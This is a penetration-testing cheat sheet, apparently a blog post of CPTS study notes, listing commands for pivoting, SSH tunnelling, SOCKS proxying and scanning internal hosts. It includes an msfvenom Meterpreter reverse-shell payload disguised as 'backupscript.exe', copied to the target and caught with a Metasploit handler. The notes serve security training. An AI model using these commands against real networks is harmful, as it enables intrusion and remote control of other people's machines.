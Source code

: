 ```yaml
---
layout: post
title: "Pivoting Tunneling and PortForwarding"
date: 2025-04-14
categories: CheatSheets/CPTS
order: 8
---
```


| Command                                                      | Description                                                                                                                                                                                          |
| ------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `ifconfig`                                                   | Linux command that displays all current network configurations of a system.                                                                                                                          |
| `ipconfig`                                                   | Windows command that displays all system network configurations.                                                                                                                                     |
| `netstat -r`                                                 | Displays the routing table for all IPv4-based protocols.                                                                                                                                             |
| `nmap -sT -p22,3306 <IPaddressofTarget>`                     | Scans a target for open SSH (22) or MySQL (3306) ports using a TCP connect scan.                                                                                                                      |
| `ssh -L 1234:localhost:3306 ubuntu@<IPaddressofTarget>`      | Creates an SSH tunnel forwarding local port 1234 to the remote’s port 3306 over SSH.                                                                                                                  |
| `netstat -antp \| grep 1234`                                 | Shows all TCP connections (`-antp`) and filters for those on port 1234.                                                                                                                               |
| `nmap -v -sV -p1234 localhost`                               | Scans localhost port 1234 with service/version detection and verbose output.                                                                                                                          |
| `ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@<IPaddressofTarget>` | Forwards local ports 1234→remote 3306 and 8080→remote 80 in one SSH session.                                                                                                                          |
| `ssh -D 9050 ubuntu@<IPaddressofTarget>`                     | Opens a dynamic (SOCKS) proxy on local port 9050 over SSH.                                                                                                                                            |
| `tail -4 /etc/proxychains.conf`                              | Shows the last 4 lines of your Proxychains configuration to verify SOCKS entries.                                                                                                                     |
| `proxychains nmap -v -sn 172.16.5.1-200`                     | Runs an Nmap ping scan (`-sn`) through your SOCKS proxy for hosts 172.16.5.1‑200 with verbose output.                                                                                                 |
| `proxychains nmap -v -Pn -sT 172.16.5.19`                    | Runs an Nmap TCP connect scan (`-sT`) through SOCKS on 172.16.5.19, skipping host discovery (`-Pn`).                                                                                                  |
| `proxychains msfconsole`                                     | Launches Metasploit with all traffic routed through your SOCKS proxy.                                                                                                                                |
| `msf6 > search rdp_scanner`                                  | Searches Metasploit for a module named `rdp_scanner`.                                                                                                                                                 |
| `proxychains xfreerdp /v:<IPaddressofTarget> /u:victor /p:pass@123` | Connects via RDP through your SOCKS proxy using FreeRDP with the given credentials.                                                                                                                   |
| `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<InternalIPofPivotHost> LPORT=8080 -f exe -o backupscript.exe` | Generates a Windows x64 Meterpreter reverse HTTPS payload calling back to `LHOST` on port 8080, output as `backupscript.exe`.                                                                       |
| `msf6 > use exploit/multi/handler`                           | Selects the multi/handler exploit in Metasploit (for catching your payload).                                                                                                                          |
| `scp backupscript.exe ubuntu@<IPaddressofTarget>:~/`         | Copies `backupscript.exe` to the Ubuntu user’s home directory on the target.                                                                                                                          |
| `python3 -m http.server 8123`                                | Serves the current directory over HTTP on port 8123 (useful for file transfers).                                                                                                                      |